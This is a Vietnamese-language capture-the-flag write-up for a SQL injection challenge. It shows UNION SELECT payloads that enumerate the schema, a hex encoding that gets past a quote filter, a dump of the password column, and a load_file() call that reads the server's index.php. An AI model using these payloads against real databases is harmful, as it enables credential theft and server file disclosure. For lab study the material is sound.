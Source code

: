 # SQL-FileReading

Point: 40

Reading file with SQL!

Statement: Retrieve the administrator password.

# Overview:

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/233352300-2af89520-7cd2-4ffa-81a9-ebf0d9460150.png)

Goal của challenge này là phải có password của administrator.

# Solution

Đầu tiên mình thử fuzz ở mục member `id=1` bằng đấu `'` 

![image](https://user-images.githubusercontent.com/115911041/233359629-5b99159d-4c3c-435e-b995-7dbeb4102f69.png)

Như đã thấy ta có thể khai thác lỗ hổng này.Tiếp theo ta sử dụng Burp Suite để Intercept

Đầu tiên cần xác định số column. Sử dụng toán tử `AND`để câu logic phía trước sai và trả về kết quả của câu lệnh select phía sau.

`AND 1=0 union all select 1,2,3,4 --`

![image](https://user-images.githubusercontent.com/115911041/233360508-37e4ba58-eb8c-4252-9f80-587b1e3e934b.png)

Kết quả là cột 1,2,4 bị lỗi. Cột email thì có dạng string, 2 cột còn lại dạng số. Vậy thì mình chọn cột email để khai thác.Payload mình dùng lần này cũng khá giống challenge Routed.

`AND 1=0 union all select 1,2,3,(select group_concat(table_name) from information_schema.tables where table_schema=database())-- --`

![image](https://user-images.githubusercontent.com/115911041/233362366-e0c63fa3-c5f7-4509-9897-ec99df015d01.png)

Column member cho ra kết quả là member.Kế đó ta tiếp tục khai thác cột khác nhưng vấn đề là bị filter đi dấu `'`, nên ta phải chuyển sang member dạng Hex

`And 1=0 union all select 1,2,3,(select group_concat(column_name) from information_schema.columns where table_name=0x6d656d626572)-- --`

![image](https://user-images.githubusercontent.com/115911041/233365320-e7e34155-4dc9-47d7-95d6-9e767bd09d0d.png)

Tiếp theo ta sẽ lấy data

`And 1=0 union all select 1,2,3,(select member_password from member)-- --`

![image](https://user-images.githubusercontent.com/115911041/233365720-2a7a00b6-234b-4403-a240-8985e341f312.png)

Kết quả ở email là dạng Base64, ta sẽ đem decode nó.Nhưng lại không cho kết quả.Sau một hồi tìm hiểu ở Docs mà challenge cung cấp, thì mình khám phả được là hàm `load_file()` được dùng để đọc file bên dưới hệ thống. VD `load_file('/web-serveur/ch31/index.php')`

Vậy để xử lí cái password thì ta cần phải tìm ra đường dẫn tới cái chỗ mà nó được xử lí thưởng là file `index.php`. Sau khi mày mò, thì bị từ chối hết, nhưng nếu các bạn đã làm nhưng bài LFI thì thường sử dụng một đưởng dẫn rất quen thuộc `/challenge/web-serveur/ch31/index.php`.Ta sẽ Hex đường dẫn đó

`And 1=0 union all select 1,2,3,load_file(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870)-- --`

![image](https://user-images.githubusercontent.com/115911041/233372552-7abc1be9-cc44-4829-b785-5c2e6ecd2121.png)

Kết quả là một nùi như vậy @@. Ta có một file index.php. Bỏ những phần râu ria đi ta chỉ cần quan tâm đến password

![image](https://user-images.githubusercontent.com/115911041/233373538-86b6d66e-8fd0-49dd-81f6-6f40934cff5b.png)

![image](https://user-images.githubusercontent.com/115911041/233373641-010e9d30-ee6b-4a6d-9c75-05b165870528.png)

![image](https://user-images.githubusercontent.com/115911041/233374185-a8516c9a-14c2-413b-832a-6be5ce78d5a1.png)

Có thể thấy lần lượt là password được xử lí bằng hàm sha1 và sau đó được mã hóa XOR. Và quan trọng nhất là ta có key

Bây giờ mình sẽ giả lập thử source code đã cho của challenge. 

![image](https://user-images.githubusercontent.com/115911041/233376272-7136f771-ed31-4605-b000-e3174414f539.png)

Sau đó đi mã hóa sha1
 `Flag: superpassword`






